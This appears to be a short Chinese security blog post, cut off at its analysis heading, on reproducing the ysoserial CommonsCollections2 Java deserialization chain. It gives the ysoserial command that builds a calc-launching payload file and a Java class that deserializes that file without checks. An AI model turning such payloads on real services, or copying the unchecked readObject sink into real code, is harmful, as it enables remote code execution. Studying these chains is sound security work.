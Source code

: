 ```yaml
---
title: "Ysoserial Commonscollections 2"
date: 2020-04-17T10:48:27+08:00
draft: false
tags:
- java
- ysoserial
series:
-
categories:
- 代码审计
---
```


拖延症严重😂

## 复现
JDK8u221，生成反序列化文件

```java
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections2 calc > test.ser
```

构造反序列化点

```java
package com.xxe.run;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class CommonsCollections2 {
    public static void main(String[] args) {
        readObject();
    }

    public static void readObject() {
        FileInputStream fis = null;
        try {
            fis = new FileInputStream("web/test.ser");
            ObjectInputStream ois = new ObjectInputStream(fis);
            ois.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/bc41003e-a6cc-c25e-afc6-064eb6617479.png)

## 分析
gadget chain
